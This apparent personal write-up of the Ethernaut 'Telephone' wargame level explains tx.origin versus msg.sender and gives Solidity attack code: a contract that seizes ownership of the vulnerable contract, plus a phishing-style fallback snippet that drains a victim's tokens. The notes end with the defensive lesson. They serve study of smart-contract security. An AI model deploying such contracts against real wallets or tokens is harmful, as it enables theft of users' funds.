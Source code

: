 ```yaml
---
title: "5. Telephone"
tags:
- writeups
---
```


- [diff between tx.origin & msg.sender](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)
	- `msg.sender`
		- gives direct sender of the msg *(user wallet or another smart contract)*
		- checks where the external function call directly came from
	- `tx.origin`
		- original user wallet that initialized the tx
		- the origin addr of potentially an entire chain of txs & calls
		- `tx.origin` can be only user wallets, not contract ones

## Exploitation
- We can trick the `(tx.origin != msg.sender)` by spoofing `msg.sender`
	- `tx.origin` will be our user address *(i.e `owner` from `PhoneChain`)*
	- `msg.sender` will be the address of the attacking contract
	- thus bypassing the check
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    // change the owner based on tx.origin
    // we can spoof this
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract PhoneChain {
  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function claimOwnership() payable public{
    Telephone(0x9F728A9a2B2c6AC2A008F828086DB24FF5e5fA9d).changeOwner(owner);
  }
}
```

## Takeaways
- confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/)
	- use `tx.origin` to determine whose tokens to transfer
		```solidity
		function transfer(address _to, uint _value) {
			tokens[tx.origin] -= _value;
			tokens[_to] += _value;
		}
		```
	- attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract
		- `tx.origin`: victim addr while `msg.sender` is the malicious contract's addr
		- results in funds being transferred from the victim to the attacker
		```solidity
		function () payable {
			token.transfer(attackerAddr, 10000);
		}
		```
- don't use `tx.origin` for authentication purposes

## Refs
- [Contracts using tx.origin for auth are vulnerable](https://hackernoon.com/hacking-solidity-contracts-using-txorigin-for-authorization-are-vulnerable-to-phishing)
- [Phising with tx.origin](https://solidity-by-example.org/hacks/phishing-with-tx-origin/)

## See Also
- [[write-ups/Ethernaut Wargame]]